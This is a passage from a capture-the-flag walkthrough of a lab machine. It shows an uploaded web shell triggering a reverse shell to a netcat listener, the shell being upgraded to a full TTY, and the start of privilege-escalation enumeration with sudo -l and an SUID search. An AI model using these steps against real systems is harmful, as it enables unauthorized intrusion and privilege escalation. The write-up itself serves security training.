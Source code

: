 We found **/uploads** directory, this is where the uploads go, when we navigate to it, we find our shell there.

# **Foothold**

Let's set a listener on our machine: `nc -nlvp 1234`, after that, we need to click on the payload to receive a reverse shell.

```terminal
$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.11.31.131] from (UNKNOWN) [10.10.131.61] 56840
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 04:53:37 up 24 min,  0 users,  load average: 0.00, 0.00, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@vulnuniversity:/$ export TERM=xterm
export TERM=xterm
www-data@vulnuniversity:/$ ^Z
zsh: suspended  nc -lnvp 1234

┌──(root㉿kali)-[/tmp/arsenal]
└─$ stty raw -echo; fg                                                                                                                             148 ⨯ 1 ⚙
[1]  + continued  nc -lnvp 1234

www-data@vulnuniversity:/$ whoami
www-data
www-data@vulnuniversity:/$
```

The commands i executed are for getting a fully functional shell, so that we can use the arrow keys, TAB key and more, you don't have to use them if you don't want to.


# **Privilege Escalation**

Time to upgrade to root, i will be running `sudo -l`, `id` commands and search for some SUID binaries using this command: `find / -type f -perm -04000 2>/dev/null`

```terminal
www-data@vulnuniversity:/home/bill$ sudo -l      
[sudo] password for www-data:
www-data@vulnuniversity:/home/bill$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@vulnuniversity:/home/bill$ find / -type f -perm -04000 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```